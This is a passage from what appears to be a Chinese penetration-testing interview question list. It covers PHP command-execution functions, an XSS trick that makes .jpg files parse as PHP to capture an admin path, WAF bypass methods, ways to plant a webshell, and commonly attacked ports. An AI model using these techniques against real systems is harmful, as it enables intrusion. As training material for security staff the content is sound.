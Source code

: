 file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等
3)命令执行：

system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()



**51、img标签除了onerror属性外，还有其他获取管理员路径的办法吗？**
src指定一个远程的脚本文件，获取referer



**52、img标签除了onerror属性外，并且src属性的后缀名，必须以.jpg结尾，怎么获取管理员路径。**

1）远程服务器修改apache配置文件，配置.jpg文件以php方式来解析
AddType application/x-httpd-php .jpg
<img src=http://xss.tv/1.jpg&gt; 会以php方式来解析

**53、为什么aspx木马权限比asp大？**

aspx使用的是.net技术。IIS 中默认不支持，ASP只是脚本语言而已。入侵的时候asp的木马一般是guest权限…APSX的木马一般是users权限。

**54、如何绕过waf？**

- 大小写转换法
- 干扰字符 `/*!*/`
- 编码 base64 unicode hex url ascll
- 复参数

**55、如何向服务器写入webshell？**

- 各种上传漏洞
- mysql具有写入权限,用sql语句写入shell
- http put方法

**56、渗透测试中常见的端口**

1,web类(web漏洞/敏感目录)
第三方通用组件漏洞struts thinkphp jboss ganglia zabbix
```
80 web 
80-89 web 
8000-9090 web
```
2,数据库类(扫描弱口令)
```
1433 MSSQL 
1521 Oracle 
3306 MySQL 
5432 PostgreSQL 
```
3,特殊服务类(未授权/命令执行类/漏洞)
```
443 SSL心脏滴血 
873 Rsync未授权 
5984 CouchDB http://xxx:5984/_utils/ 
6379 redis未授权 
7001,7002 WebLogic默认弱口令，反序列 
9200,9300 elasticsearch 参考WooYun: 多玩某服务器ElasticSearch命令执行漏洞 
11211 memcache未授权访问 
27017,27018 Mongodb未授权访问 
50000 SAP命令执行 
50070,50030 hadoop默认端口未授权访问
```
4,常用端口类(扫描弱口令/端口爆破)
```
21 ftp 
22 SSH 
23 Telnet 
2601,2604 zebra路由，默认密码zebra
3389 远程桌面
```